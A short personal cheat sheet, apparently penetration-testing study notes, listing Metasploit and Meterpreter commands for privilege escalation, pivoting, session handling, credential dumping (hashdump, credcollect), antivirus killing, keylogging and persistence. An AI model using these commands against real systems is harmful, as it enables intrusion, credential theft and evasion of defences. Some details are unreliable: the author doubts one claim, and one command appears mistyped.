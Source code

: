 ```yaml
---
title: Metasploit
---
```


## Metasploit
###### Commands
```
show targets
show options
```

## Meterpreter
Suggest post exploitation paths
```
run post/multi/recon/local_exploit_suggester
```
Get Administrator
```
getsystem
```
Drop into a command prompt
```
shell
```

Creates relay from a meterpreter session
```
portfwd add -l 22 -p 22 -r 10.20.170.87
```

###### Systeminfo
Check the system and current process that the session is running as. I had an issue where the exploit gave me a x86 (WOW64 32 bit) shell and the privesc needed x64 (64bit).
^ This statement might be completely false lol ^
```
sysinfo
```

###### I am not sure if this migrated me to a (x86) process.
```
run post/windows/manage/migrate
```

###### Core Commands
Background the meterpreter session
```
background
```
Bring that meterpreter session to the foreground. Trick here is hitting tab to see available sessions. 
```
session -i "session id"
```

Meterpreter Scripts
```
killav
metsvc
migrate
netenum
prefetchtool
vnc_oneport / vnc
sheduleme
winenum
credcollect
get_local_subnets
getcountermeasure
getgui
gettelnet
hashdump
keylogrecorder
checkvm
```